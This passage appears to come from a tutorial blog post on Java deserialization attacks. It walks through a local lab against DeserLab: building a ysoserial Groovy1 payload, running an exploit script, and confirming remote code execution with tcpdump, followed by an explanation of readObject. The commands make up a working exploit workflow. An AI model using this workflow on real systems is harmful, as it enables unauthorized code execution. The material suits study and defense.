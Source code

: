 Generate a payload with `ysoserial`:
```bash
root@toothless:~/Documents/ru_for_serial# java -jar ysoserial.jar Groovy1 'ping 127.0.0.1 -c 10' > payload.bin
root@toothless:~/Documents/ru_for_serial# xxd payload.bin | head -n5
00000000: aced 0005 7372 0032 7375 6e2e 7265 666c  ....sr.2sun.refl
00000010: 6563 742e 616e 6e6f 7461 7469 6f6e 2e41  ect.annotation.A
00000020: 6e6e 6f74 6174 696f 6e49 6e76 6f63 6174  nnotationInvocat
00000030: 696f 6e48 616e 646c 6572 55ca f50f 15cb  ionHandlerU.....
00000040: 7ea5 0200 024c 000c 6d65 6d62 6572 5661  ~....L..memberVa
```

[Exploit](https://www.github.com/deletehead/java_deserialiation) the vulnerability:
```bash
root@toothless:~/Documents/ru_for_serial# ./deserlab_exploit.py 127.0.0.1 9090 payload.bin 
```

Get RCE:
```bash
root@toothless:~/Documents/ru_for_serial/DeserLab-v1.0# tcpdump -i lo icmp                                                                              
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode                                                                              
listening on lo, link-type EN10MB (Ethernet), capture size 262144 bytes                                                                                 
23:40:40.680429 IP localhost > localhost: ICMP echo request, id 53703, seq 1, length 64                                                                 
23:40:40.680440 IP localhost > localhost: ICMP echo reply, id 53703, seq 1, length 64                                                                   
<-- snip -->
```

### Why You're Reading This
OK, so _how_ does this wizardry occur?!


#### Foundational Information
What initially confused me about this was how a blob of data can run code if deserialization only restores properties of objects, and you don't pass any code with the serialized data. While this is true, Java _does_ something on the object when it attempts to identify the object and restore its state in-memory. Classes that are serializable must [implement](https://www.w3schools.com/java/ref_keyword_implements.asp) the [`Serializable`](https://docs.oracle.com/javase/7/docs/api/java/io/Serializable.html) interface which has a method called `readObject`. If you are familiar with PHP, this is similar in concept (as I understand it) to "magic methods" -- the [`readObject`](https://docs.oracle.com/javase/7/docs/api/java/io/Serializable.html) method in Java would be similar to the PHP [`__wakeup()` magic method](https://www.php.net/manual/en/language.oop5.magic.php#object.wakeup). If this interface is not implemented in a class, then objects created with this class **can't** be serialized/deserialized.

The `readObject` method is meant to take a data stream and populate the class fields, restoring the object's state. If a `Serializable` class defines a new `readObject` method, this adds deserialization logic on top of the default behavior that restores the object state. The [default `readObject` method](https://docs.oracle.com/javase/7/docs/api/java/io/Serializable.html) can be overwritten on objects that implement the `Serializable` interface, potentially introducing abusable logic.
